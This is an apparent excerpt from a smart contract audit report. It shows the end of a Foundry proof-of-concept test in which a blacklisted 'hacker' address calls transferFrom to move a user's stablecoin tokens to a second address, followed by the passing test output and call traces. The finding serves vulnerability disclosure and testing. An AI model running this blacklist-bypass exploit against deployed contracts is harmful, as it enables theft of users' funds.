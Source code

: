 ```solidity
        vm.prank(hacker);
        stablecoinInstance.transferFrom(user, hacker2, 5 ether);
        assertEq(stablecoinInstance.balanceOf(hacker2), 5 ether);

        console.log("After user balance: ", stablecoinInstance.balanceOf(user));
        console.log("After hacker balance: ", stablecoinInstance.balanceOf(hacker));
        console.log("After hacker2 balance: ", stablecoinInstance.balanceOf(hacker2));

        vm.startPrank(user);
    }
}
```

```solidity
$ forge test --mt test_poc_blacklistedCanCallTransferFrom -vvvv
[⠊] Compiling...
[⠒] Compiling 1 files with Solc 0.8.27
[⠢] Solc 0.8.27 finished in 2.08s
Compiler run successful!

Ran 1 test for test/testBlacklist.t.sol:testBlacklist
[PASS] test_poc_blacklistedCanCallTransferFrom() (gas: 474960)
Logs:
  Before user balance:  10000000000000000000
  Before hacker balance:  1000000000000000000
  After user balance:  5000000000000000000
  After hacker balance:  0
  After hacker2 balance:  5000000000000000000

Traces:
  [598963] testBlacklist::test_poc_blacklistedCanCallTransferFrom()
    ├─ [2713] Stablecoin::balanceOf(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::record()
    │   └─ ← [Return] 
    ├─ [713] Stablecoin::balanceOf(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::accesses(Stablecoin: [0x1e52e407d6D7eEB69d522ecB23F7F7F5Ff9F8Df2])
    │   └─ ← [Return] [0xf87bb5a322ec9f9c33e72fc9530beca6fcb304903bcda1bfe7adfe339d791b25], []
    ├─ [0] VM::load(Stablecoin: [0x1e52e407d6D7eEB69d522ecB23F7F7F5Ff9F8Df2], 0xf87bb5a322ec9f9c33e72fc9530beca6fcb304903bcda1bfe7adfe339d791b25) [staticcall]
    │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000000
    ├─ emit WARNING_UninitedSlot(who: Stablecoin: [0x1e52e407d6D7eEB69d522ecB23F7F7F5Ff9F8Df2], slot: 112392162251855840595985412590026145694726450746947751294959586915981983292197 [1.123e77])
    ├─ [0] VM::load(Stablecoin: [0x1e52e407d6D7eEB69d522ecB23F7F7F5Ff9F8Df2], 0xf87bb5a322ec9f9c33e72fc9530beca6fcb304903bcda1bfe7adfe339d791b25) [staticcall]
    │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000000
    ├─ [713] Stablecoin::balanceOf(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::store(Stablecoin: [0x1e52e407d6D7eEB69d522ecB23F7F7F5Ff9F8Df2], 0xf87bb5a322ec9f9c33e72fc9530beca6fcb304903bcda1bfe7adfe339d791b25, 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff)
    │   └─ ← [Return] 
    ├─ [713] Stablecoin::balanceOf(0x6813Eb9362372EEF6200f3b1dbC3f819671cBA69) [staticcall]
    │   └─ ← [Return] 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77]
    ├─ [0] VM::store(Stablecoin: [0x1e52e407d6D7eEB69d522ecB23F7F7F5Ff9F8Df2], 0xf87bb5a322ec9f9c33e72fc9530beca6fcb304903bcda1bfe7adfe339d791b25, 0x0000000000000000000000000000000000000000000000000000000000000000)
    │   └─ ← [Return] 
    ├─ emit SlotFound(who: Stablecoin: [0x1e52e407d6D7eEB69d522ecB23F7F7F5Ff9F8Df2], fsig: 0x70a08231, keysHash: 0x90f3868889e9c35f122449b6d46f724593d4840bc389a326fc5597f4fc449615, slot: 112392162251855840595985412590026145694726450746947751294959586915981983292197 [1.123e77])
```